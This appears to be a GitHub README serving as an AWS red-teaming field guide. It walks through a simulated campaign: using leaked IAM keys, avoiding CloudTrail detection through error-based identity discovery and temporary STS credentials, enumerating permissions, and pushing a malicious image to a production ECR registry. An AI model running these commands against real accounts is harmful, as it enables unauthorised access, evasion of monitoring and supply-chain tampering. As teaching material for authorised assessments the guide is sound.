



# AWS RED TEAMING FIELD GUIDE

## Abstract  
This guide is intended to provide a clear and practical methodology for conducting offensive security assessments on AWS accounts.   
It focuses specifically on penetration testing and red teaming activities, offering a structured approach to uncovering vulnerabilities and simulating real-world attack scenarios.  


## Table of Contents

- [AWS RED TEAMING FIELD GUIDE](#aws-red-teaming-field-guide)
  - [Abstract](#abstract)
  - [Table of Contents](#table-of-contents)
  - [Types of Activities](#types-of-activities)
  - [Useful Resources](#useful-resources)
  - [Prerequisites](#prerequisites)
  - [OSS Tools](#oss-tools)
  - [Campaign Simulation  n°1](#campaign-simulation--n1)

## Types of Activities  

Based on my experience, security assessments and penetration testing activities for AWS accounts and infrastructure can be divided into the following categories:

1. **Deployment Pipelines and IaC Assessment**:  
   The recommended approach for managing AWS infrastructure (or infrastructure on any cloud provider) involves using Infrastructure as Code (IaC) tools such as [*CloudFormation*](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/Welcome.html) or [*Terraform*](https://github.com/hashicorp/terraform).  
   These tools offer significant advantages in terms of centralized infrastructure provisioning and management while enabling static security checks on definitions *before* the infrastructure is deployed.   
   It is essential to determine whether the client employs these methodologies.  
   If so, it is crucial to verify the existence of deployment pipelines and [*ensure pipelines and manifests include appropriate security controls*](../../IaC/README.md).    

2. **CSPM and Penetration Testing**:  
   This activity focuses on conducting [*Cloud Security Posture Management*](../prowler/README.md)  (CSPM) alongside penetration testing to identify and address any misconfigurations.  
   It can be considered the cloud equivalent of traditional Vulnerability Assessment and Penetration Testing (VA/PT) in non-cloud environments.  

3. **Automated Red Teaming**:  
   This activity simulates suspicious or risky actions that attackers might perform, in an [*automated manner*](../stratus/README.md).    
   Its primary purpose is to support SOC onboarding and ensure detection rules are functioning correctly.   

4. **Hardcore Red Teaming**:  
   This is the closest to a full-fledged red teaming engagement.  
   The objective is to simulate a realistic attack by a threat actor, leveraging authentic TTPs (Tactics, Techniques, and Procedures).  
   This activity tests the client's detection and incident response capabilities without prior knowledge of their processes. It often starts with the client providing one or more sets of access keys associated with IAM users.  
   If you are doing a full black box engagement, start from [*here*](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/).  


This guide focuses primarily on *hardcore red teaming* activities, as the other categories are partially documented in other pages (see links above).  
For a general overview of cloud pentesting methodology, please refer to [*this*](https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology).  


> [!IMPORTANT]  
> In a red teaming campaign, a strong emphasis must be placed on stealth and detection-evasion mechanisms.  
> This principle is equally, if not more, critical when operating in AWS environments.  
> AWS offers several services that continuously log actions and API calls, meaning that every move is under constant scrutiny.  
> It is essential to approach such engagements with the understanding that you are operating in an environment where hundreds of "eyes" are monitoring your activities at all times.  


> [!WARNING]  
> ALL ARNs, keys, tokens and other sensitive inormation presented in this document are either hevily modified or inactive, do not attempt to use them as they wont work 😊  

## Useful Resources
Some of the resources I personally find usefull while doing aws red teaming activities are:  
- [*Hacking the Cloud - AWS*](https://hackingthe.cloud/aws/general-knowledge/aws_cli_tips_and_tricks/)  
- [*Hacktricks - AWS*](https://cloud.hacktricks.xyz/pentesting-cloud/aws-security)  
- [*Mitre Cloud Matrix*](https://attack.mitre.org/matrices/enterprise/cloud/)  
- [*Stratus Attack Techniques - AWS*](https://stratus-red-team.cloud/attack-techniques/AWS/)  

## Prerequisites  

As with any task, completing it effectively requires the right tools. One essential tool for working with AWS is the [*AWS CLI*](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).    
This is the minimum and indispensable requirement to proceed with any activity. 
Any additional tools or software can be downloaded later or as needed, depending on the specific requirements of the task.  

> [!WARNING]  
> If you are performing the activity from Kali or other operating systems specifically designed for penetration testing,  
> it is highly recommended to [*set up a proxy*](https://hackingthe.cloud/aws/avoiding-detection/guardduty-pentest/) to route AWS calls (and modify the user agent) or [*run the aws-cli in docker*](https://hub.docker.com/r/amazon/aws-cli).  
> If you want to run the aws-cli in docker, use the following command (for zsh) for adding a permanent alias:  
> `echo "alias aws='docker run --rm -v ~/.aws:/root/.aws -v \$(pwd):/aws -it amazon/aws-cli'" >> ~/.zshrc && source ~/.zshrc`  


From experience, having an AWS account already [*set up*](https://docs.aws.amazon.com/cli/v1/userguide/cli-configure-files.html) can also be incredibly useful.  
This is because, more often than it should, companies craft resource policies that grant access to all aws principals (anyone with an AWS account). 

## OSS Tools   
The AWS ecosystem is constantly evolving, along with the tools used to interact with it.  
Below is a list of open-source tools that I have frequently utilized over time for assessments and offensive security activities targeting AWS environments.  

- [*AWS-CLI*](https://github.com/aws/aws-cli)  (Of course 😉)
- [*Pacu*](https://github.com/RhinoSecurityLabs/pacu)  
- [*Prowler*](https://github.com/prowler-cloud/prowler)  
- [*CloudFox*](https://github.com/BishopFox/cloudfox)  
- [*Stratus*](https://github.com/DataDog/stratus-red-team)  
- [*ScoutSuite*](https://github.com/nccgroup/ScoutSuite)  
- [*s3scan*](https://github.com/sa7mon/S3Scanner)  
- [*enumerate-iam*](https://github.com/andresriancho/enumerate-iam) 
- [*Parliament*](https://github.com/duo-labs/parliament)  
- [*Iamlive*](https://github.com/iann0036/iamlive)  
- [*Trivy*](https://github.com/aquasecurity/trivy)   
- [*gitleaks*](https://github.com/gitleaks/gitleaks)  


## Campaign Simulation  n°1
In this section, we will simulate a real-world activity, demonstrating the steps and commands involved while deriving a methodology that is as standardized as possible.  


As previously mentioned, this type of activity typically begins with one or more long-term access key sets, associated with IAM users.  
These keys may have been discovered through OSINT operations (e.g., in public repositories), obtained during prior engagements, or directly provided by the client specifically for this campaign. 

For this scenario, let’s assume that we were able to retrieve a set of access keys from a misconfigured CI pipeline, and we have exported them as environment variables:  
```sh
export AWS_ACCESS_KEY_ID=<CUSTOMER-AWS-ACCESS-KEY-ID-HERE>
export export AWS_SECRET_ACCESS_KEY=<CUSTOMER-AWS-SECRET-ACCESS-KEY-HERE>
```  

One of the first things we might be tempted to do is identify our current user.  
To achieve this, the most widely used AWS CLI command (both by legitimate users and malicious actors) is:

```bash
aws sts get-caller-identity
```  

This command is used to retrieve information about the identity of the AWS account and the user or role associated with the current set of credentials.   Specifically, it returns three key pieces of information:  

1. **Account ID**: The unique identifier of the AWS account.    
2. **ARN (Amazon Resource Name)**: The fully qualified identifier of the IAM user or role being used (every aws resources have one).    
3. **User ID**: A unique identifier for the IAM entity.    

This information is invaluable in determining the context in which the current credentials are operating.  
For example, it helps establish whether the credentials belong to an IAM user, an assumed role, or an AWS service.  
It also assists in understanding the permissions associated with the current session and is often a critical step in both legitimate AWS usage and in offensive security activities.  

However, the use of this command is highly detectable for several reasons:

1. **Log Visibility**: The execution of `aws sts get-caller-identity` is logged in [*AWS CloudTrail*](https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-user-guide.html)  under the "Security Token Service" (STS) events.  
Security teams often monitor for this specific activity because it is commonly used by threat actors to probe their level of access after gaining a foothold in an environment.  

2. **Behavioral Signatures**: *Frequent or unexpected* use of this command, especially from unfamiliar IP addresses, regions, or accounts, can raise red flags.  
It is a hallmark of initial reconnaissance in many attack scenarios.

3. **Anomalous Patterns**: Legitimate users typically have little need to frequently invoke this command, as their identity is often already known or can be inferred from the environment.  
As such, its use may stand out during routine security audits or anomaly detection.

> [!TIP]  
> Given the above, if our goal is to remain as stealthy as possible, we might prefer not to use this method.    
> Fortunately, many AWS services will disclose the calling role along with the account ID when an error is generated.    
> It should be noted that the principal must lack IAM permissions for this call in order for the error to return the relevant information.   
> One "sthealtier" command we can try is the following:  
> ```sh
> aws sqs list-queues
> ```  

Here is an example output when the user does not have permissions to call that api:  
```sh
An error occurred (AccessDenied) when calling the ListQueues operation: User: arn:aws:iam::232323232323:user/john is not authorized to perform: sqs:listqueues on resource: arn:aws:sqs:eu-north-1:232323232323: because no identity-based policy allows the sqs:listqueues action
```  

The error from the `aws sqs list-queues` command provides several useful insights despite the denial.  
It reveals the ARN of the user (`arn:aws:iam::232323232323:user/john`), which includes the AWS account ID and the specific IAM user.  
It also shows that the operation targeted Amazon SQS in the `eu-north-1` region and attempted the `sqs:listqueues` action, which is used to list SQS queues.  

We were able to gather information about the user by leveraging a less conspicuous API call!  

This approach minimizes the risk of triggering alarms or drawing attention during an assessment. 

Another critical step, highly recommended in this context, is to check whether it is possible to obtain temporary credentials instead of relying on long-term access keys.  
Temporary credentials are often preferred in AWS environments due to their limited lifespan and reduced risk of misuse, making them a safer option for attackers and defenders alike.  

In the AWS ecosystem, [*several types of identifiers*](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_identifiers.html#identifiers-unique-ids) are associated with IAM resources, such as user IDs, access key IDs, and role ARNs.  
Understanding these identifiers and their purposes is essential for navigating and exploiting IAM configurations effectively.  
From a security perspective, there are 2 primary prefixes which are important to know, `AKIA` and `ASIA`.  

IAM credentials with the *AKIA* prefix belong to long lived access keys associated with IAM users.  
These credentials can potentially be exposed and used by attackers.  
Because they do not expire by default, they serve as an excellent vehicle to gain initial access to an AWS environment: our campaign started with one of these.  


IAM credentials with the *ASIA* prefix belong to short lived access keys which were generated using STS.  
These credentials last for a limited time.  
In the event you come across an access key prefixed with ASIA, a secret key, and a session token, make use of them quickly before they expire.  

Usually, ASIA keys use is less prone to be heavily monitored since these are temporary keys.  
We can use the `get_session_token()` functionality to generate temporary credentials for operations to reduce noise and avoid detection tied to the initial access keys.  

Visualize the help for this aws-cli functionality:  

```sh
aws sts get-session-token help
```  

  

Then generate a set of short lived credentials:  
```sh
aws sts get-session-token --duration-seconds 3600
```  

This call will return something like this:  
```json
{
    "Credentials": {
        "AccessKeyId": "ASIA..............",
        "SecretAccessKey": "1Q/Xq.................................",
        "SessionToken": "FwoG.................................................................................",
        "Expiration": "2024-12-12T11:35:15Z"
    }
}
```  

Export those as env vars like this:  
```sh
export AWS_ACCESS_KEY_ID=<YOUR-NEW-AWS-ACCESS-KEY-ID>
export AWS_SECRET_ACCESS_KEY=<YOUR-NEW-AWS-SECRET-ACCESS-KEY>
export AWS_SESSION_TOKEN=<YOUR-AWS-SESSION-TOKEN>
```  

At this point, we need to start enumerating our permissions to understand what actions we can perform within the account and identify any vectors for lateral movement or privilege escalation. 

> [!TIP]
> Depending on the objectives of the engagement, we have several approaches:  
> - The least noisy but slowest method involves manually and carefully invoking [*specific APIs*](https://docs.aws.amazon.com/cli/latest/reference/#available-services) that are likely to be strategic (e.g., `s3`, `ec2`, `ecr`, etc.) to determine if we have the necessary permissions.   
> - Automated tools for permission enumeration can also be used, such as [*enumerate-iam*](https://github.com/andresriancho/enumerate-iam).  
> - Finally, there are dedicated exploitation frameworks designed for AWS, such as [*PACU*](../pacu/README.md), which automate various actions but tend to generate significant noise.  
Pacu is very powerfull and I love it but, in my opninion, should be used as a last resort.  


In this demonstration, we will focus on using a tool like `enumerate-iam`.  
Donwload the tool and install dependencies (better to do this inside a virtual env):  
```sh
git clone git@github.com:andresriancho/enumerate-iam.git
cd enumerate-iam/
pip install -r requirements.txt --break-system-packages
```  


Launch the tool by specifying the access keys and token:  
```sh
 ./enumerate-iam.py --access-key <YOUR-NEW-AWS-ACCESS-KEY-ID> --secret-key <YOUR-NEW-AWS-SECRET-ACCESS-KEY> --session-token <YOUR-AWS-SESSION-TOKEN>
```

Here is an example output from the previous command, showcasing some of the permission our current user has:  
  


Since we have access to some [*ECR*](https://aws.amazon.com/ecr/) apis, lets try to enumerate repositories in different regions:  

```sh
aws ecr describe-repositories --region eu-north-1 --output json | jq
```  

Output sample:  
```json
{
  "repositories": [
    {
      "repositoryArn": "arn:aws:ecr:eu-north-1:232323232323:repository/prod-registry/prod-registry-supplier-rest",
      "registryId": "232323232323",
      "repositoryName": "prod-registry/prod-registry-supplier-rest",
      "repositoryUri": "232323232323.dkr.ecr.eu-north-1.amazonaws.com/prod-registry/prod-registry-supplier-rest",
      "createdAt": 1729492762.593,
      "imageTagMutability": "MUTABLE",
      "imageScanningConfiguration": {
        "scanOnPush": true
      },
      "encryptionConfiguration": {
        "encryptionType": "KMS",
        "kmsKey": "arn:aws:kms:eu-north-1:232323232323:key/99f7b3426-854a-469e-c6ba-12c20f52427a"
      }
    },
    {
      "repositoryArn": "arn:aws:ecr:eu-north-1:232323232323:repository/prod-registry/prod-registry-buyer-rest",
      "registryId": "232323232323",
      "repositoryName": "prod-registry/prod-registry-buyer-rest",
      "repositoryUri": "232323232323.dkr.ecr.eu-north-1.amazonaws.com/prod-registry/prod-registry-buyer-rest",
      "createdAt": 1729492761.381,
      "imageTagMutability": "MUTABLE",
      "imageScanningConfiguration": {
        "scanOnPush": true
      },
      "encryptionConfiguration": {
        "encryptionType": "KMS",
        "kmsKey": "arn:aws:kms:eu-north-1:232323232323:key/9f7b3426-854a-469e-c6ba-12c20f52427a"
      }
    }
  ]
}
```  

Note that the image tag are `MUTABLE`...this means that, if we have write permission, we can overwrite existing images with malicious ones!  

Now we can list images in the repositories, for example:  
```sh
aws ecr list-images --repository-name prod-registry/prod-registry-supplier-rest --region eu-north-1 --output json | jq
```  

Output sample:  
```json
{
  "imageIds": [
    {
      "imageDigest": "sha256:d7ac6cdf0f7d51c3b9eb36824b887b0012da2a9ded27fcfebd8fdc5565829415"
    },
    {
      "imageDigest": "sha256:20767be87ec12db226dd2d39c1a6d8eefd6c79d974a5dd16747a59040590b579"
    },
    {
      "imageDigest": "sha256:df3dbc954d508b8b60925da490a30750202a657e692669f5fae8a99e47061123"
    },
    {
      "imageDigest": "sha256:3b26d7c182aca31f1e69222ca4297014a498c922d384d0b755feea03b2d35c11"
    },
    {
      "imageDigest": "sha256:8bd02ea568dc092e5533d27d5a1d084ee04355b1fb9748f5ccc2103bf62a96ea"
    },
    {
      "imageDigest": "sha256:602880f7a4a7428f3157dcda929179174d1feb9f24bfc5e2ab2cfbef19130680"
    },
    {
      "imageDigest": "sha256:803a24af8f80edf2786826573d98c26ab19d033aa32090c31677d5f87a07615b"
    },
    {
      "imageDigest": "sha256:f5d6fffa2f05fa7386ba97df99117b961a31431c157f0296877657e0f8b829f1"
    },
    {
      "imageDigest": "sha256:26a8c4f8d74555c1bd077f4988393905191d22b6f487f69489659f7389f6307b"
    },
    {
      "imageDigest": "sha256:c80b355fd70c52442b3a12c28f69643d8a7d2aed52118163918caca39a3ddc85"
    },
    {
      "imageDigest": "sha256:3420381706932c6c7c28133eb9bf753820ee5ebc5cc950fe10a53cccbfacaf79",
      "imageTag": "latest"
    }
  ]
}
```  

Now we can try to pull images locally:  
```sh
docker pull 232323232323.dkr.ecr.eu-north-1.amazonaws.com/prod-registry/prod-registry-supplier-rest:latest
```  

Now we can analyse the image with tools like [*trivy*](https://github.com/aquasecurity/trivy), inspect the layers in search for hardcode secrets and also run it locally.  

We can also try to push malicious images:  
```sh
docker tag malicious-image:latest 232323232323.dkr.ecr.eu-north-1.amazonaws.com/prod-registry/prod-registry-supplier-rest:redteam
docker push 232323232323.dkr.ecr.eu-north-1.amazonaws.com/prod-registry/prod-registry-supplier-rest:redteam

```  

and then confirming that our image is in the catalog:  
```sh
aws ecr list-images \
    --repository-name prod-registry/prod-registry-supplier-rest \
    --region eu-north-1 \
    --query "imageIds[?imageTag=='redteam']" \
    --output json | jq
```  

Output sample:  
  

This concludes the first scenario.  
We successfully demonstrated the push of malicious images to the production registry and left the artifact as evidence. 🏴  


